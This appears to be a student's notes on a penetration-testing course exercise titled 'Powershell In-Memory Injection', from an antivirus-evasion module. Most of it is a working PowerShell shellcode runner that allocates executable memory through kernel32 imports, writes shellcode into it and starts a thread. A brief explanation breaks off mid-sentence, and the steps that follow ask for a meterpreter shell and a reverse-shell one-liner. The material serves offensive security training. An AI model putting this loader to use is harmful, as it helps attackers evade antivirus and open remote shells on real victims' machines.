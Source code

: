 # 17.3.4 Powershell In-Memory Injection

**1.  Review the code from the PowerShell script and ensure that you have a basic understanding of how it works.**

Posted below is the script we will be working with.
```powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc = 
  Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$sc = <place your shellcode here>;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

The script starts by importing a few functions from the kernel32.dll, specifically VirtualAlloc and CreateThread, as well as memset from msvcrt.dll. The functions will allow the allocation of memory, creation of an execution thread, and the writing of arbitrary data to said allocated memory. 

The next portion of the script (begining at [Byte])

**2.  Get a meterpreter shell back to your Kali Linux machine using PowerShell.**


**3.  Attempt to get a reverse shell using a PowerShell one-liner rather than a script.[1](https://portal.offensive-security.com/courses/pen-200/books-and-videos/modal/modules/antivirus-evasion/bypassing-antivirus-detection/practice-powershell-in-memory-injection#fn1)**